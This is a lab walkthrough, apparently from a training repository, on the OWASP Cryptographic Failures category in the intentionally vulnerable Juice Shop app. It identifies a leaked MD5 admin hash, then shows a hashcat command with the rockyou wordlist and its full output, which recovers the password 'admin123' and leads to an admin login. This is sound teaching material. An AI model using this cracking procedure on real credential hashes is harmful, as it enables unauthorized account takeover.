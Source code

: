 # A2:2021 - Cryptographic Failures

## Overview
[Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/) occur when applications fail to properly protect data in transit and at rest through inadequate or missing cryptographic controls. This vulnerability category encompasses issues such as using weak encryption algorithms, improper key management, transmitting sensitive data in plaintext, and failing to encrypt sensitive data altogether.

Cryptographic failures can lead to exposure of sensitive data including personal information, authentication credentials, financial data, and other confidential information. These failures often result from using outdated cryptographic standards, poor implementation of encryption, or complete absence of encryption where it should be applied.

## Reconnaissance
This vulnerability as discovered during the [injection](./03-injection.md) of the walk through. Do that one first. 

The aforementioned injection attack revealed user information with some sort of hashed/encrypted passwords. Let's figure out what the scheme could be and see if its breakable. 

```json
{"id":1,"name":"admin@juice-sh.op","description":"","price":4,"deluxePrice":"0192023a7bbd73250516f069df18b500","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},```

Kali has a handy tool called Hash Identifier. Paste in any hash and it will try to figure out what it is. 

```sh
$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 0192023a7bbd73250516f069df18b500

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Hash Identifer shoes to this to be an MD5 hash, which has cryptographic flaws and tools like Hashcat have wordlists to break it. If this isn't a very copmlex password, Hashcar will break it. 

## Exploit
Runing Hashcat with the Rockyou wordlist to try and break the admin user's password.

I saved the hash to a file called `admin.txt` on my `cwd` and ran the builtin Rockyou wordlist from Kali.


```sh
hashcat -m 0 -a 0 admin.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0192023a7bbd73250516f069df18b500:admin123                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 0192023a7bbd73250516f069df18b500
Time.Started.....: Tue Jun 10 07:26:35 2025 (0 secs)
Time.Estimated...: Tue Jun 10 07:26:35 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   874.9 kH/s (0.08ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 90624/14344385 (0.63%)
Rejected.........: 0/90624 (0.00%)
Restore.Point....: 89088/14344385 (0.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: hairy -> 141201

Started: Tue Jun 10 07:26:21 2025
Stopped: Tue Jun 10 07:26:37 2025
```

Hashcat was able to find the password in its wordlist of `admin123`. Let's try it on the site. 

We're in!

Chaining multiple exploits can bring an even greater impact to a business than standalone.

